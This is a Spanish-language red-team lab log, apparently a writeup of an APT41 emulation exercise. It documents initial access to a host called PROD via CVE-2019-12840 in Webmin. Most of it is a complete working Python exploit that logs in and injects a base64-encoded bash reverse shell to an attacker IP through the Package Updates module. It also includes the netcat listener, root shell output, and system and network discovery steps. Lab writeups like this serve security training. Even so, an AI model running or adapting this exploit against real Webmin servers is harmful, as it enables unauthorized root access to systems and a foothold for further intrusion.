




# Exploitation Log — Operación SILENT BRIDGE
## Fase 2 — Initial Access: CVE-2019-12840 Webmin RCE
**Operación:** SILENT BRIDGE | **Adversario:** APT41 | **Framework:** MITRE ATT&CK v14  
**Operador:** Adrián Camacho | **Fecha:** 14/05/2026  
**Objetivo:** RCE en PROD (10.0.2.200) — shell como root

---

## FASE 2 — Initial Access: Webmin RCE

**Táctica MITRE:** TA0001 — Initial Access  
**Técnica:** T1190 — Exploit Public-Facing Application  
**CVE:** CVE-2019-12840  
**Herramienta:** Exploit Python personalizado (weaponización manual)

### Contexto táctico

CVE-2019-12840 es una vulnerabilidad de ejecución remota de código en Webmin ≤ 1.910 que afecta al módulo `Package Updates`. Cualquier usuario autenticado con acceso a ese módulo puede inyectar comandos arbitrarios que se ejecutan como root.

**Nota de weaponización:** Metasploit no funcionó en el entorno por un bug de namespace Ruby (`uninitialized constant HTTP`) en la versión de Kali sin actualización. Se analizó el módulo `46984.rb` de ExploitDB y se reconstruyó el exploit en Python — replicando exactamente el comportamiento del módulo original:
1. Login en `/session_login.cgi` → obtener `sid`
2. POST a `/package-updates/update.cgi` con payload base64 inyectado en parámetro `u`

---

### 2.1 — Preparación de credenciales Webmin

```bash
# En PROD — establecer contraseña para root en Webmin
sudo /usr/share/webmin/changepass.pl /etc/webmin root thomas
```

**Resultado:** `Updated password of Webmin user root`

---

### 2.2 — Weaponización — Exploit Python (CVE-2019-12840)
**Captura:** 

Análisis del módulo Ruby original (`/usr/share/exploitdb/exploits/linux/remote/46984.rb`):

```ruby
# Login → obtener cookie sid
res = send_request_cgi({
  'uri' => '/session_login.cgi',
  'cookie' => 'testing=1',
  'vars_post' => { 'user' => USERNAME, 'pass' => PASSWORD }
})
# Ejecución → inyección en parámetro u
'data' => "u=acl%2Fapt&u=%20%7C%20#{payload}&ok_top=Update+Selected+Packages"
```

**Exploit reconstruido en Python:**

```python
import requests, urllib3, sys, base64
from urllib.parse import quote
urllib3.disable_warnings()

TARGET = "https://10.0.2.200:10000"
USER   = "root"
PASS   = "thomas"
LHOST  = "10.0.2.9"
LPORT  = "4444"

# Step 1 — Login
s = requests.Session()
r = s.post(f"{TARGET}/session_login.cgi",
    data={"page": "", "user": USER, "pass": PASS},
    cookies={"testing": "1"},
    verify=False, allow_redirects=False)

sid = None
if r.status_code == 302:
    for c in r.cookies:
        if c.name == "sid":
            sid = c.value

# Step 2 — RCE via Package Updates
payload = f"bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1"
b64 = base64.b64encode(payload.encode()).decode()
perl_payload = f'bash -c "{{echo,{b64}}}|{{base64,-d}}|{{bash,-i}}"'
enc = quote(perl_payload)

r2 = s.post(f"{TARGET}/package-updates/update.cgi",
    data=f"u=acl%2Fapt&u=%20%7C%20{enc}&ok_top=Update+Selected+Packages",
    headers={"Referer": f"{TARGET}/package-updates/?xnavigation=1"},
    cookies={"sid": sid, "testing": "1"},
    verify=False)
```

**Session ID obtenido:** `dd397e4a0d456136a6a886944e84fb97`

---

### 2.3 — Shell reversa recibida
**Captura:** 

```bash
# Terminal 1 — listener
nc -lvnp 4444

# Terminal 2 — exploit
python3 /tmp/webmin_rce.py
```

**Output listener:**
```
listening on [any] 4444 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.200] 49888
bash: cannot set terminal process group (1303): Inappropriate ioctl for device
bash: no job control in this shell
root@prod:/usr/share/webmin/package-updates/#
```

Shell reversa recibida como **root** desde `10.0.2.200`. ✅

---

### 2.4 — System Information Discovery
**Técnica MITRE:** T1082  
**Captura:** 

```bash
id && whoami && hostname && uname -a
```

```
uid=0(root) gid=0(root) groups=0(root)
root
prod
Linux prod 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
```

| Campo | Valor |
|-------|-------|
| Usuario | `root` (uid=0) |
| Hostname | `prod` |
| OS | Ubuntu 22.04 |
| Kernel | 5.15.0-119-generic |

---

### 2.5 — Network Interface Discovery
**Técnica MITRE:** T1016  
**Captura:** 

```bash
ip addr && ip route
```

| Interfaz | IP | Red | Relevancia |
|---------|-----|-----|-----------|
| `enp0s3` | `10.0.2.200/24` | LabRedTeam | Red externa (Kali visible) |
| `enp0s8` | `10.0.3.200/24` | LabInternal | **Red interna ← pivote** |

**Red interna descubierta:** `10.0.3.0/24`

---

### Resumen Fase 2

```
INITIAL ACCESS — Estado final
════════════════════════════════════════════════════

PROD (10.0.2.200)
  CVE          → CVE-2019-12840 (Package Updates RCE) ✅
  Exploit      → Python personalizado (análisis de 46984.rb) ✅
  Shell        → root@prod ✅
  Red interna  → enp0s8 → 10.0.3.0/24 ✅

TÉCNICAS MITRE:
  T1190     → Exploit Public-Facing Application
  T1059.004 → Unix Shell (bash reverse shell)
  T1082     → System Information Discovery
  T1016     → System Network Configuration Discovery
```

**Criterio de éxito Fase 2:** ✅

---

**Siguiente fase:** [pivoting.md](pivoting.md) — Fase 3: Ligolo-ng